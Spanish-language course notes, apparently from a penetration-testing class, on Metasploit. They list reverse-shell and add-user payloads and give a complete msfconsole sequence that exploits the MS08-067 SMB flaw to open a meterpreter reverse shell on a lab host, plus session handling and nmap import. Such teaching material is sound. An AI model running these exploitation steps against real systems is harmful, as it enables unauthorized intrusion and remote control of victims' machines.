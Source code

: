 
##### Payloads

Son las acciones a realizar justa al haber ejecutado el exploit.

Ejemplos de payloads:

```bash
windows/adduser		# creación de usuarios
windows/vncinject/reverse_tcp	# conexión vnc
windows/shell/reverse_tcp	# tunel inverso
```

Estas payloads también tienen sus opciones de parámetro y se tendrán que añadir con `set`



##### Explotar vulnerabilidad

Para explotar una vulnerabilidad hay que cargar un exploit y un payload y añadir sus parametros requeridos.

en este caso explotaremos una vulnerabilidad de los dispositivos windows xp,2003 de smb.

```bash
msfconsole
workspace udemy		# acceder al spacio de trabajo elejido
search exploid ms08	# buscar el exploid que queremos
use exploit/windows/smb/ms08_067_netapi	# cargarlo
show options	# ver opciones requeridas
set rhost 10.0.0.10		# añadir remote host requerido
set payload windows/meterpreter/reverse_tcp	# cargar payload de tunel inverso
show options	# ver opciones requeridas
set lhost 10.0.0.5	# añadir local host requerido
exploit	# ejecutar ordenes
meterpreter >_	# si todo a ido bien nos debuelve una shell en la victima
```



##### Background  

Una vez conectado en un host interactivamente tendremos una terminal, y si queremos seguir con otras cosas podemos echar mano al background, que llega a ser tener diferentes sesiones de metasploit.

```bash
metasploit@maquina-remota> background  # o también Ctrl+Z   dejar en segundo plano
msf> sessions  	# ver sesiones abiertas
ms> session -i 5	# acceder a la session 5
```



##### Importar datos de nmap

Es posible que si tenemos datos de nmap previos importarlos y así trabajar con ellos desde metasploit

```bash
nmap 10.0.0.5 -A -Pn -n -oX pruevas-windows.xml # ejecutar nmap dejando datos en salida xml
msfconsole	# entrar en metasploit
msf> db_import /root/escaneos/pruevas-windows.xml # importar archivo
msf> hosts	# datos de hosts
msf> services # datos de servicios

# se puede ejecutar directamente nmap desde metasploit también
msf> db_nmap -A 10.0.0.5
```
